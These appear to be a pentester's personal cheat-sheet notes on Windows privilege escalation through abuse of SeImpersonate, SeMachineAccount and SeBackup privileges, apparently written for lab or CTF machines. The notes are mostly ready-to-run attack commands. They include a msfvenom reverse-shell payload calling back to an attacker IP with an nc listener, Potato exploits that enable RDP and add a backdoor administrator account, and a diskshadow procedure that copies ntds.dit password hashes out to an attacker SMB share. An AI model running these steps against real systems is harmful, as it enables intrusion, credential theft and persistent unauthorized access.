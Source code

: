 ```whoami /priv```
- check any Se privs here https://github.com/gtworek/Priv2Admin
***SeImpersonatePrivilege***
JuicyPotatoNG.exe
```
.\JuicyPotatoNG.exe -t * -p shell.exe
```
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.90.250 LPORT=8082 -f exe > shell.exe`
- `rlwrap -cAr nc -lnvp 8082`
- 
GodPotato
	- Create RDP admin user:
```
.\GodPotato-NET4.exe -cmd "cmd /c reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
```

```
.\GodPotato-NET4.exe -cmd "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```

```
.\GodPotato-NET4.exe -cmd "cmd /c net user chepe P@ssw0rd /add"
```

```
.\GodPotato-NET4.exe -cmd "cmd /c net localgroup administrators chepe /add"
```
other versions: [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)
- https://github.com/itm4n/PrintSpoofer/releases

***SeMachineAccountPrivilege***
	- See [[#^062636|RBCD Attack]] below
	- See [[#^8bdeef|DC Sync Attack]] below
	- See [[#^b9f60c|Azure Connect abuse]] below

***SeBackupPrivilege***
	- upload files from [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) to `C:\programdata` directory
		- `import-module .\SeBackupPrivilegeCmdLets.dll`
		- `import-module .\SeBackupPrivilegeUtils.dll`
	- Can now copy and read files you wouldn't normally be able to as a non-admin user. Example:
```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
```
- `type \programdata\0xdf.txt`
- can also use to read `ntds.dit` which holds all the password hashes
	- `Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .`
		- if can't copy because it's in use, try DiskShadow
			- create file on kali *vss.dsh*:
```
set context persistent nowriters  
add volume c: alias df  
create  
expose %df% z:
```
- `sudo unix2dos vss.dsh` on kali
- `upload vss.dsh` on remote machine (copy to machine via evil-winrm)
on remote machine, run diskshadow (built-in windows utility)
```
diskshadow /s c:\programdata\vss.dsh
```
`smbserver.py s . -smb2support` on kali, start smb server
`net use \\10.10.14.172 \s` on remote machine, mount smb server
```
